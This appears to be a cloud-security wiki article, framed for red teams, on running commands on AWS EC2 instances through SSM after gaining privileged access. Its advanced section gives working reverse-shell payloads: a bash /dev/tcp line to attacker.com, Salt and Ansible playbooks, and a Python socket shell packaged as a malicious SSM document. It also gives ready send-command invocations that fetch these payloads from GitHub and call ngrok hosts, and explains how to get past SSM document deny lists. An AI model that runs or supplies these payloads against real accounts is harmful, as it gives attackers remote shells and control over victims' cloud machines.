



After escalating privileges in a target AWS account or otherwise gaining privileged access you may want to run commands on EC2 instances in the account. This article hopes to provide a quick and referenceable cheat sheet on how to do this via [ssm:SendCommand](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/send-command.html) or [ssm:StartSession](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/start-session.html).

!!! Tip
    By default, the commands that are issued are not logged to CloudTrail. Specifically they are "HIDDEN_DUE_TO_SECURITY_REASONS". As a result, if an adversary were to leverage this tactic against an environment, defenders would need to get information about those commands from host based controls. Defenders, this is an excellent capability to validate. Alternatively, offensive security teams can do the testing.

## Send Command

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ssm:SendCommand](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/send-command.html)

-   :material-shield-plus:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - [ssm:ListCommandInvocations](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/list-command-invocations.html)
    - [ec2:DescribeInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html)
</div>

You can send arbitrary shell commands to EC2 instances from the AWS CLI via the following:

```
aws ssm send-command \
--instance-ids "i-00000000000000000" \
--document-name "AWS-RunShellScript"
--parameters commands="*shell commands here*"
```

If you're just looking to run a quick C2 payload, or perhaps create a new user this will likely be enough. However, if you also want to retrieve the output of the command you will need to make a [ssm:ListCommandInvocations](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/list-command-invocations.html) call as well.

If you would like to retrieve the output, make a note of the `CommandId` returned to you in the Send Command call. After a short period of time (to let the command run) you can use this Id to lookup the results. You can do this with the following:

```
aws ssm list-command-invocations \
--command-id "command_id_guid" \
--details
```

!!! Note
    The `--details` is required to view the output of the command.
    
The output of the command will be in the `Output` section under `CommandPlugins`.

### Advanced Attacks

Section author: Eduard Agavriloae

<div class="grid cards" markdown>

-   :material-tools:{ .lg .middle } __Tools mentioned in this article__

    ---

    [EC2StepShell](https://github.com/saw-your-packet/EC2StepShell): EC2StepShell is an AWS post-exploitation tool for getting high privileges reverse shells in public or private EC2 instances.
    
    [fun-with-ssm](https://github.com/saw-your-packet/fun-with-ssm): Resources for AWS post-exploitation scenarios where you have the permission ssm:SendCommand, but you can't use the AWS-RunPowerShellScript or AWS-RunShellScript documents.

</div>

#### Upgrade to a shell

If you don't have the ssm:StartSession permission, but you still want something close to a reverse shell, then you can use EC2StepShell.

!!! Tip
    EC2StepShell works on both Windows-UNIX and public-private instances. The tool automatically detect the OS and uses the permissions "ssm:SendCommand" for sending commands and either "ssm:GetCommandInvocation" or "ssm:ListCommandInvocations" for retrieving the output.

The tool is just a wrapper over SSM SendCommand, but it makes command execution simpler and it helps in showing impact.




#### Using other SSM Documents

Most techniques and tools are using the SSM Documents AWS-RunShellScript and AWS-RunPowerShellScript for executing system commands. In some cases this might be either blocked or heavily monitored. Similarly, execution of SSM Documents owned by other AWS accounts might have the same restrictions.



There are 7 other SSM Documents that can be used for executing system commands on EC2 instances as first documented in the blog post [7 Lesser-Known AWS SSM Document Techniques for Code Execution](https://securitycafe.ro/2023/04/19/7-lesser-known-aws-ssm-document-techniques-for-code-execution/).

##### AWS-RunSaltState

This document will download from a remote location a Salt state file and interpret it. Salt state files are part of SaltStack, a technology for infrastructure management. The file format is YAML and the AWS-RunSaltState document can download it from S3 Buckets or HTTP(S) servers.

The payload for running arbitrary code will use “cmd.run”, as exemplified below where we have a payload for getting a reverse shell.

```yaml
mycommand:
  cmd.run:
    - name: 0<&196;exec 196<>/dev/tcp/attacker.com/1337; sh <&196 >&196 2>&196
```

The downside is that Salt Stack needs to be installed on the target system and that’s not the case by default.

For this document, as well as for the rest of them, we can create parameterized payloads. Meaning that we will use a single generic payload and pass the host and port as parameters.

```yaml
# source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-RunSaltState/linux/reverse_shell.yml
mycommand:
  cmd.run:
    - name: 0<&196;exec 196<>/dev/tcp/{{host}}/{{port}}; sh <&196 >&196 2>&196
```

Example usage:

```bash
aws ssm send-command --document-name AWS-RunSaltState \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters \
'{"stateurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunSaltState/linux/reverse_shell.yml"], "pillars":["{\"host\":\"7.tcp.eu.ngrok.io\", \"port\":\"14460\"}"]}'
```

##### AWS-ApplyAnsiblePlaybooks

It downloads from remote locations Ansible Playbooks and executes them. It can download from S3 Buckets or GitHub repositories.

The advantage here is that it can also install Ansible on the system.

The parameterized Ansible Playbook for getting a reverse shell:

```yaml
# Source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-ApplyAnsiblePlaybooks/linux/reverse_shell.yml
---
  - name: "Playing with Ansible and Git"
    hosts: localhost
    connection: local 
    tasks:

    - name: "Saying hi from remote host"
      shell: "0<&196;exec 196<>/dev/tcp/{{host}}/{{port}}; sh <&196 >&196 2>&196"
```

Example usage:

```bash
aws ssm send-command --instance-id i-0ecad5485f77f18f4 \
    --document-name "AWS-ApplyAnsiblePlaybooks" \
    --parameters \
'{"SourceType":["GitHub"],"SourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\",\"path\":\"AWS-ApplyAnsiblePlaybooks/linux/\", \"getOptions\":\"branch:main\"}"],"InstallDependencies":["True"],"PlaybookFile":["reverse_shell.yml"],"ExtraVariables":["host=6.tcp.eu.ngrok.io port=13012"]}'
```

Because it is a GitHub repository, we have to specify more parameters than an HTTP server. Besides that, the parameters of interest are:

- InstallDependencies
    - Set to true for installing Ansible on the system
- ExtraVariables
    - Here we specify the host and port where to receive the reverse shell

##### AWS-RunAnsiblePlaybook

It does the same thing as AWS-ApplyAnsiblePlaybook with some differences:

- Can download only from S3 Buckets and HTTP(S) servers
- It requires Ansible to be already installed on the system
- The same Ansible Playbook can be used, but the command to send the command is different

```bash
aws ssm send-command --document-name "AWS-RunAnsiblePlaybook" \
    --instance-id i-0ecad5485f77f18f4 \
    --parameters \
'{"playbookurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunAnsiblePlaybook/linux/reverse_shell.yml"],"extravars":["host=7.tcp.eu.ngrok.io port=14355"]}'
```

##### AWS-InstallPowerShellModule

It downloads from remote locations PS modules and installs them. It only supports HTTP(S) servers.

The way the document is build, it allows you to execute an arbitrary command after the module was installed. Because of this, the PS module doesn’t need to be malicious.

Example usage:

```bash
aws ssm send-command --document-name "AWS-InstallPowerShellModule" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"source":["https://your-server.com/module.ps1"], "commands":["whoami"]}'
```

##### AWS-InstallApplication

It downloads from remote locations MSI files and installs them. It only supports HTTP(S) servers. You can pass arguments to the MSI installation if want to. You need to be aware of AV at this point if the file is malicious.

Example usage:

```bash
aws ssm send-command --document-name "AWS-InstallApplication" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"action":["Install"], "parameters":["parameters"], "source":["https://your-server.com/file.msi"]}'
```

##### AWS-RunRemoteScript

It downloads from remote locations scripts and executes them. It supports S3 Buckets and GitHub repositories. It works for both UNIX and Windows machines.

Example usage:

```bash
aws ssm send-command --document-name "AWS-RunRemoteScript" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"sourceType":["S3"], "sourceInfo":["{\"path\":\"s3://my-bucket/script.sh\"}"]}'
```

##### AWS-RunDocument

Last, but not least, AWS-RunDocument. This is a special one. It downloads and executes other SSM Documents. Let’s take a moment to understand this better.

So, let’s say the cloud engineer extended the deny list from the initial policy and blocked all the other SSM Documents presented above.



Well, if AWS-RunDocument is not blocked then the policy is useless. You can copy the content of, let’s say, AWS-RunShellScript document, store it on your server and use AWS-RunDocument to execute a replica of the AWS-RunShellScript document, which will result in the exact outcome as if you would have used AWS-RunShellScript directly.

It can downloads documents from GitHub repositories, S3 Buckets, HTTP(S) servers, but also can get a document as parameter from CLI. Same as for the other documents, you can create parameterized payloads that can be reused. It offers infinite possibilities in terms of what can you do.

Here is an example of malicious SSM Document that will generate a reverse shell through python (I don’t know why, but the Bash TCP payload doesn’t work with AWS-RunDocument).

Source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-RunDocument/linux/Reverse-Shell-Python

```json
{
  "schemaVersion": "2.2",
  "description": "rev shell document linux",
  "parameters": {
    "host": {
      "description": "(Required) Specify the host.",
      "type": "String"
    },
    "port": {
      "description": "(Optional) Specify the port. The default value is 4444.",
      "type": "String",
      "default": "4444"
    }
  },
  "mainSteps": [
    {
      "action": "aws:runShellScript",
      "name": "shell",
      "inputs": {
        "runCommand": [
          "port={{ port }}",
          "host1={{ host }}",
          "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"'$host1'\",'$port'));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"
        ]
      }
    }
  ]
}
```

Example usage:

```bash
ws ssm send-command --document-name "AWS-RunDocument" \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters '{"sourceType":["GitHub"],"sourceInfo":["{\"owner\":\"saw-your-packet\", \"repository\":\"fun-with-ssm\", \"path\":\"AWS-RunDocument/linux/Reverse-Shell-Python\",\"getOptions\":\"branch:main\"}"], "documentParameters":["{\"host\":\"2.tcp.eu.ngrok.io\",\"port\":\"11448\"}"]}'
```

The parameter of interest is documentParameters which allow us to pass our host and port to the document. Cool, right?

As an extension of this research, I started making malicious SSM documents. You can check them here: https://github.com/saw-your-packet/fun-with-ssm/tree/main/AWS-RunDocument

More details about the advanced usage of SSM Run Command can be found in my talk: [The C2 tool no one talks about: AWS SSM – Run Command at DefCamp 2023](https://www.youtube.com/watch?v=SKXzwDy4vkw)

## Session Manager

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ssm:StartSession](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ssm/start-session.html)
</div>

If instead you'd like a more interactive shell experience, you can make use of [Session Manager](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html). Session Manager allows you to have an SSH-esc experience, making it easy to interact with EC2 instances.

To begin, you will first need to [install the SSM Session Manager Plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html). The specifics of this will depend on what operating system you are using.

With that installed, you can then run the following command to start an interactive session.

```
aws ssm start-session --target instance-id
```
